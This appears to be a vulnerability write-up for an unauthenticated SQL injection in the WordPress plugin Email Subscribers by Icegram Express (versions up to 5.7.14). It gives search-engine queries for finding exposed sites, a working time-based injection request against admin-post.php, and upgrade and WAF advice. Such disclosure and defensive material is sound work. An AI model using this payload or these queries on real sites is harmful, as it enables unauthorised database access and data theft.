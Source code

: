 ### Description
The Email Subscribers by Icegram Express – Email Marketing, Newsletters, Automation for WordPress & WooCommerce plugin for WordPress is vulnerable to SQL Injection 
via the 'run' function of the 'IG_ES_Subscribers_Query' class in all versions up to, and including, 5.7.14 due to insufficient escaping on the user supplied parameter and lack of sufficient 
preparation on the existing SQL query. This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.

### Query
- FOFA : body="/wp-content/plugins/email-subscribers/"
- publicwww : "/wp-content/plugins/email-subscribers/"

### Proof of concept
```bash
@timeout: 20s (using burpsuite)
POST /wp-admin/admin-post.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

page=es_subscribers&is_ajax=1&action=_sent&advanced_filter[conditions][0][0][field]=status=99924)))union(select(sleep(4)))--+&advanced_filter[conditions][0][0][operator]==&advanced_filter[conditions][0][0][value]=1111
```

### How to fix ?
- Since all versions up to 5.7.14 were detected with the CVE, it’s recommended for users to upgrade the Email Subscribers by Icegram Express plug-in to version 5.7.15 (or the most recent release 5.7.19).
- Patchstack users have the option to enable automatic updates specifically for vulnerable plugins.
- Implement a WAF/WAAP solution as an additional layer of protection. The advantage of such solutions is that even if the vulnerability is new and unknown (0-day), it may still prevent attacks by detecting exploitation patterns and techniques.

### Bounty Info 
https://www.wordfence.com/blog/2024/04/1250-bounty-awarded-for-unauthenticated-sql-injection-vulnerability-patched-in-email-subscribers-by-icegram-express-wordpress-plugin/
